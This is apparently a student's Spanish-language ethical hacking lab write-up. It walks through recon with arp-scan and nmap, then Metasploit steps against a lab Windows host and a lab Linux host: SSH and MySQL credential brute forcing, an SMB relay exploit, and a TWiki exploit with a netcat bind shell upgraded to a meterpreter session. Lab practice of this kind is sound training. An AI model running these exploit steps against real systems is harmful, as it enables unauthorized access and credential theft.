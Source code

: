 # Tarea: Hacking Ético

## Máquina Windows con vulnerabilidades
- Obtener información del sistema vulnerable
  	*Para saber la ip del dispositivo al que queremos atacar usaremos:*

  	arp-scan -l

   	<br>
    
* Explorar e identificar vulnerabilidades del sistema

	*Para saber lo puertos que están abiertos utilizaremos*

  	nmap *ip del servidor*

  	<br>
   	*Si queremos un puerto en especifipo nos sirve el -p*
  
+ Explotar las vulnerabilidades
  
  - Puerto 22 -> SSH

    *Con este comando hacemos uso del módulo ssh_login para iniciar sesión con posibles usuarios*
    
        use auxiliar/scanner/ssh/ssh_login

  	<br>
    *Mostramos las opciones*
    
        show options

  	<br>
    *Es obligatorio poner el target, en mi caso la IP es: 192.168.0.117*
    
        set RHOSTS 192.168.0.117

  	<br>
    *Creamos unalista de posibles usuarios y otra con posibles contraseñas*
    
        set USER_FILE usuarios.txt
        set PASS_FILE usuarios.txt

  	<br>
    *Con run se intentará iniciar sesión en el servidor SSH utilizando la lista de nombres de usuario y contraseñas*
    
        run

    <br>
    
  - Puerto 139 -> netbios-ssn

       *Para explotar este puerto necesitaremos explotar estos puertos*

   	    use exploit windows/smb/smb_relay 
 
       *Luego debemos poner el rhosts*

     	    set RHOSTS 192.168.0.117
   
       *Luego lo ejecutamos y ya tenemos acceso*

     	    run

      *Para comprobar que funciona hacemos un ls y debería salir el directorio "he de decir que no se por qué funcionó pero entré" *
      
## Máquina Linux con vulnerabilidades
- Obtener información del sistema vulnerable

    *Para saber la ip del Linux al que queremos ver vulnerabilidades usaremos:*

      nmap -sn *dir_red/mascara*

    <br>

* Explorar e identificar vulnerabilidades del sistema

    *Puedes saber los puertos que un linux tiene abiertos con:*

      nmap -sT *ip del cliente*

    <br>


+ Explotar las vulnerabilidades
  - Puerto 80 -> HTTP
 
     *Este comando carga el módulo de explotación llamado "twiki_history" que está diseñado para atacar vulnerabilidades en la aplicación web TWiki*
	
	    use exploit/unix/webapp/twiki_history

    *Muestra las opciones disponibles para configurar el módulo de explotación "twiki_history".*
    
    	show options
    
    *Establece la dirección IP del host al que se pretende atacar, en este caso 100.100.100.2.*
    
    	set rhost 100.100.100.2
    
    *Establece el payload que se utilizará en la explotación. En este caso, se utiliza "cmd/unix/bind_netcat", que esta diseñado para abrir una conexión usando Netcat en la máquina.*
    
    	set payload cmd/unix/bind_netcat
    
    *Ejecuta la explotación en segundo plano.*
    
    	exploit -j
    
    *Muestra una lista de las sesiones activas que se han establecido después de la explotación. Esto permite identificar si se ha obtenido acceso a la máquina.*
    
    	sessions -l
    
    *Cambia a un módulo de post-explotación llamado "shell_to_m". Se utiliza para interactuar con la máquina objetivo una vez hayamos accedido.*
    
    	use post/multi/manage/shell_to_m
    
    *Establece conexíon con la primera sesion iniciada para ejecutar el módulo "shell_to_m".*
    
    	set session 1
    
    *Ejecuta el módulo "shell_to_m" en la sesión número 1.*
    
    	exploit
    
    *Interactúa con la segunda sesión (sesión número 2), obteniendo acceso a la máquina vulnerable.*
    
    	sessions -i 2
    
    *Sale la IP de la máquina vulnerable una vez conectado.*
    
    	ifconfig
    	
    *Confirmación del acceso a la máquina vulnerable.*
    
    	cat /etc/hostname


    <br>
  
  - Puerto 3306 -> MySQL
 
    *Este comando indica el uso del módulo mysql_login para hacer una prueba de inicio de sesión MySQL, utilizando una lista de nombres de usuario y contraseñas.*
    
        use scanner/mysql/mysql_login
    
    *Muestra las opciones que se pueden configurar del módulo*
    
        show options
    
    *Establece la dirección IP de la máquina vulnerbale, en mi caso la IP es: 100.100.100.2.*
    
        set rhosts 100.100.100.2
    
    *Define el archivo unix_users.txt como la lista de posibles nombres de usuario y contraseñas para probar durante la prueba de inicio de sesión.*
    
        set userpass_file /usr/share/metasploit-framework/data/wordlists/unix_users.txt
    
    *Con run se intentará iniciar sesión en el servidor MySQL utilizando la lista de nombres de usuario y contraseñas del archivo unix_users.txt*
    
        run
 
    *En la lista de usuarios que saldrá que se han probado usamos el que ha podido iniciar la sesión con éxito, en mi caso root*
    
    *Luego en una terminal aparte ejecutamos el siguiente comando y pedira contraseña aunque está vacía*
    
        mysql -u root -h 100.100.100.2 -p

